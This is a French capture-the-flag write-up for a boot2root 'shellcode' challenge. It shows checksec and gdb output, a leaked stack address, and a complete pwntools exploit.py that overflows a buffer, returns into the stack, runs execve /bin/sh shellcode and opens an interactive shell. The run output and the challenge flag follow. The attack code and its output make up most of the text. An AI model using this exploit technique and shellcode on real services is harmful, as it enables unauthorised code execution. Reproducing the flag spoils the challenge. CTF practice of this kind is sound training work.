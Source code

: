 # SHELLCODE
```
ncat 35.238.225.156 1006
```
- Fichier : [shellcode](../attachements/shellcode/shellcode)
Ici il faut faire une injection de shell, le stack est exécutable
```js
$ checksec shellcode
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
```py
gdb> vmmap
0x00007ffffffde000 0x00007ffffffff000 rwxp    [stack]
```
Et le programme est gentil il nous file même l'adresse du stack :)
```
$ ncat 35.238.225.156 1006
Amigo's I welcome you to the boot2root server
Wait did I say something I wasnt supposed to[0x7fffffffe250] ?
Okay Waiting for the answer now
```
```as
lea rdi, str.Wait_did_I_say_something_I_wasnt_supposed_to__p ; 0x2038 ; "Wait did I say something I wasnt supposed to[%p] ?\n"
mov eax, 0
call sym.imp.printf
```
Alors on fait un programme qui se connecte au serveur, récupère l'adresse du stack, puis send une payload de ce type :
```
overflow + ret + shell
```
**exploit.py** :
```py
import re
import struct
from pwn import *

conn = remote('35.238.225.156', 1006)

received = conn.recvuntil('now\n')
print(received.decode())

reg = re.search('.*\[(.*)\].*',received.decode())
assert reg, log.error('Stack address not found !')

stack_addr = reg.group(1).encode()
stack_addr = int(stack_addr,16) 
log.info('Stack addresss is at {}'.format(hex(stack_addr)))


overflow = b'A'*24
ret = struct.pack('Q',stack_addr+len(overflow)+8)
shell = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

payload = overflow + ret + shell

log.info('Sending payload...')
conn.send(payload + b'\n')

log.success('Executing /bin/sh : ')
conn.interactive()
```
- Fichier : [exploit.py](../attachements/shellcode/exploit.py)
On l'exécute et on a un shell :)
```
$ python exploit.py
[+] Opening connection to 127.0.0.1 on port 13371: Done
Amigo's I welcome you to the boot2root server
Wait did I say something I wasnt supposed to[0x7fffffffe1d0] ?
Okay Waiting for the answer now

[*] Stack addresss is at 0x7fffffffe1d0
[*] Sending payload...
[+] Executing /bin/sh : 
[*] Switching to interactive mode
$ cat flag
b00t2root{sehllz_c0de}
```
flag : `b00t2root{sehllz_c0de}`
GG ! Enfin un qui ne fait pas partie de ceux qui ne sont rien
<:macron:784920050544017429>
